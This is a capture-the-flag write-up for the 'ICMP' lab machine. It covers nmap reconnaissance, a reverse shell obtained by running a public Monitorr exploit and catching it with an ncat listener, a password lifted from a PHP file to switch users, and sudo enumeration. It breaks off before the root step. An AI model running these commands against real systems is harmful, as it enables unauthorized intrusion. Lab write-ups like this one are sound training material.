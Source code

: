 ```yaml
---
description: VulnHub & OffSec ICMP machine writeup
cover: ../.gitbook/assets/image (20).png
coverY: 0
---
```


# \[Intermediate] ICMP

### Recon

#### Services                                                                                                                                                               21ms  ✓&#x20;

```bash
─$ nmap -sC -sV -v -T5 icmp                                     
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 deb52389bb9fd41ab50453d0b75cb03f (RSA)
|   256 160914eab9fa17e945395e3bb4fd110a (ECDSA)
|_  256 9f665e71b9125ded705a4f5a8d0d65d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title:             Monitorr            | Monitorr        
|_Requested resource was http://icmp/mon/
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Subdirs

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

#### Monitorr

<figure><img src="../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

\+ link on repo:

{% embed url="https://github.com/Monitorr/Monitorr" %}

### www-data

Exploit:&#x20;

{% embed url="https://www.exploit-db.com/exploits/48980" %}

{% code overflow="wrap" %}
```bash
$  python3 48980.py http://192.168.110.218/mon/ 192.168.49.110 4444
```
{% endcode %}

<pre class="language-bash"><code class="lang-bash">$ ncat -nvlp 4444 
<strong>www-data@icmp:/var/www/html/mon/assets/data/usrimg$ pwd
</strong>/var/www/html/mon/assets/data/usrimg
</code></pre>

### Privelege Escalation

#### www-data to fox

<mark style="color:red;">`pspy`</mark> <mark style="color:red;"></mark><mark style="color:red;"></mark> enum didn't gave me anything, so I checked machine for another users:

```bash
www-data@icmp:/var/www/html/mon/assets/data/usrimg$ ls /home    
ls /home
fox
www-data@icmp:/var/www/html/mon/assets/data/usrimg$ ls -lsa /home/fox
ls -lsa /home/fox
total 20
4 drwxr-xr-x 3 root root 4096 Dec  3  2020 .
4 drwxr-xr-x 3 root root 4096 Dec  3  2020 ..
0 lrwxrwxrwx 1 root root    9 Dec  3  2020 .bash_history -> /dev/null
4 drwx--x--x 2 fox  fox  4096 Dec  3  2020 devel
4 -rw-r--r-- 1 fox  fox    33 Feb 27 19:04 local.txt
4 -rw-r--r-- 1 root root   78 Dec  3  2020 reminder

```



Checking <mark style="color:orange;">`reminder`</mark> we get a hint:

```bash
www-data@icmp:/home/fox$ cat reminder

crypt with crypt.php: done, it works
work on decrypt with crypt.php: howto?!?
```

<pre class="language-php"><code class="lang-php">www-data@icmp:/home/fox$ cat devel/crypt.php
<strong>&#x3C;?php
</strong><strong>echo crypt('BUHNIJMONIBUVCYTTYVGBUHJNI','da'); 
</strong><strong>?>
</strong></code></pre>

```bash
www-data@icmp:/home/fox$ ls
ls
devel
local.txt
reminder
www-data@icmp:/home/fox$ su fox
su fox
Password: BUHNIJMONIBUVCYTTYVGBUHJNI

$ python -c 'import pty; pty.spawn("/bin/bash")'

fox@icmp:~$ whoami
whoami
fox
```

#### fox to root

<mark style="color:red;">`sudo -l:`</mark>

```bash
fox@icmp:~$ sudo -l 
sudo -l 
Matching Defaults entries for fox on icmp:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fox may run the following commands on icmp:
    (root) /usr/sbin/hping3 --icmp *
    (root) /usr/bin/killall hping3

```

\~ soon \~
